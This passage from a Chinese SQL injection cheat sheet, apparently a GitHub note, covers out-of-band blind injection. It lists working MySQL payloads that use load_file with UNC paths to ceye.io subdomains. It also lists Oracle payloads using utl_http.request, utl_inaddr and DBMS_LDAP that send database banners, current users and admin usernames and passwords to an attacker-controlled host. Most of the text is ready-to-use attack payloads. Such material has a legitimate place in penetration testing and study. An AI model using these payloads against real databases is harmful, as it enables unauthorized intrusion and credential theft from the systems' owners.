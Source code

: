 ### 4.带外数据盲注
带外数据是指通过其他的通道来回显数据，就是利用其他协议或者渠道，如http请求、DNS解析、SMB服务等将数据带出，通过能否成功带出来判断真假，当上面所有方法都不能能用了，可以尝试带外数据的方式注入。  
例使用DNS协议，大多时候DNS查询请求都不会被阻止，可以利用DNSlog来判断  
[ceye.io](http://ceye.io/) [dnslog.cn](http://www.dnslog.cn)等  
**注：一般需要高权限，mysql中只能用在windows平台，语句详情见不同数据库备忘录**
例;
````sql
#mysql
select load_file('\\\\XXX.xxxx.ceye.io\\aaa')
````
用带外方法把数据带出
例：
````sql
#mysql
' and if((select load_file(concat('\\\\',(select database()),'.xxxx.ceye.io\\abc'))),1,0)-- 
````
也可以用request方式请求：
#### oracle中利用utl_http.request带外注入
````
# 测试有没有utl_http.request权限
'and exists (select count(*) from all_objects where object_name='UTL_HTTP') --

反弹注入语句用法
' and utl_http.request('http://xxx.xxx:xxx/'||(select banner from sys.v_$version where rownum=1))=1--
````
````
查看当前连接用户
' and utl_http.request('http://xxx.xxx:xxx/'%7C%7C(select SYS_CONTEXT ('USERENV', 'CURRENT_USER')from dual))=1 --

查询系统用户
%27%20and%20utl_http.request('http://xxx.xxx:xxx/'%7c%7c (select user from dual))=1--

%27%20and%20utl_http.request('http://xxx.xxx:xxx/'%7c%7c(select member from v$logfile where rownum=1))=1--

%27%20and%20%20utl_http.request(%27http://xxx.xxx:xxx/%27%7c%7c(select%20instance_name%20from%20v$instance))=1--

查询admin的帐号和密码
' and utl_http.request('http://xxx.xxx:xxx/'||(select username||password from admin))=1 --
````
>utl_inaddr.get_host_address()函数和 SYS.DBMS_LDAP.INIT()函数也有类似效果
````
' and (select utl_inaddr.get_host_address((select user from dual)||'.xxx.ceye.io') from dual)is not null --

' and (select SYS.DBMS_LDAP.INIT((select user from dual)||'.xxx.ceye.io') from dual)is not null --
````
